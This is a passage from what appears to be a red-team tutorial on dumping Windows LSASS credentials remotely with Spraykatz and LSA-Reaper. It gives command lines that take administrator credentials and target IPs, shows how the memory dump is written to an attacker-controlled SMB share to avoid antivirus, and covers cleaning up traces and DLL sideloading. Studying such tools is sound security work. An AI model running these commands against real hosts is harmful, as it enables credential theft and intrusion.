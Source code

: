 As usual Pypykatz is used to parse the dump and show us the credentials. Launching it on a machine with local credentials would look like this:
```text
python3 spraykatz.py -u administrator -p 'MegaPassword!1' -t 192.168.0.144 -d .
```

![23a10b58978c2a5646a3de49c2f19788.png](/_resources/23a10b58978c2a5646a3de49c2f19788.png)

If we are interested in launching it against multiple hosts we can specify the target as the name of a file containing one target per line, or either a series of hosts separated by commas as well as an IP range in CIDR notation from the command line.

Spraykatz automatically tries to remove procdump and any dump files, but launching it with `-r` afterwards makes sure we aren't leaving anything behind.

---

## LSA-Reaper

[LSA-Reaper](https://github.com/samiam1086/LSA-Reaper) is an interesting tool that goes for a slightly different approach than the others, focusing on using the `MiniDumpWriteDump` function found in Dbghelp.dll, providing a number of different ways to use it.

The payload is essentially just a call to `MiniDumpWriteDump` but instead of writing the dump on the host's disk it first mounts a network drive linking to the attacker's machine, which is then used as destination folder for the function. This should help bypass some AVs that monitor disk write operations.

The most basic usage provides the target, its credentials, and the local IP address to launch the SMB server:
```text
sudo python3 lsa-reaper.py -ip 192.168.0.207 administrator:'MegaPassword!1'@192.168.0.105
```

![d97ad0f73f3c5a48f37a90772ac0390d.png](/_resources/d97ad0f73f3c5a48f37a90772ac0390d.png)

Within a few seconds LSA-Reaper will have mounted the network drive, copied and executed the payload on the host, and unmounted the drive:

![8d4e63a6cd27ca568b22e93cec9096f2.png](/_resources/8d4e63a6cd27ca568b22e93cec9096f2.png)

If execution was successful we should have a `loot` folder with the dump waiting for us, which we can read with Pypykatz:

![511a47c5f9298c3ebd1f0d2c40937ede.png](/_resources/511a47c5f9298c3ebd1f0d2c40937ede.png)

LSA-Reaper has quite a few useful options, firstly we can tell it to do the dump parsing automatically with `-ap`, this will create three text files with the found credentials, one with all credentials, another with full output in greppable format and a third with the NT hashes :

![dcaa826cc7bc2c4d8f9e30ef14a033b6.png](/_resources/dcaa826cc7bc2c4d8f9e30ef14a033b6.png)

Another interesting thing about LSA-Reaper is that it supports quite a few different payloads, we can simply drop the custom .exe or have an application call our payload in DLL form with DLL sideloading, for example by renaming the payload in WindowsCodecs.dll and having a copy of calc.exe in the same folder:
